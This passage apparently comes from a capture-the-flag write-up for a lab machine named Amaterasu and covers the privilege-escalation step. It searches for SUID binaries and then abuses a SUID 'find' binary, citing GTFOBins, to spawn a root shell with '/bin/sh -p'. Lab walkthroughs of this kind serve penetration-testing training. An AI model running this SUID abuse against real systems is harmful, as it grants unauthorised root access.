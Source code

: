 Search for SUID binaries.

```bash
find / -perm -u=s -type f 2>/dev/null
```

![Untitled](../assets/img/pg/Amaterasu/Untitled%2012.png)

[find
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid)

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Root Access

![image.png](../assets/img/pg/Amaterasu/image%201.png)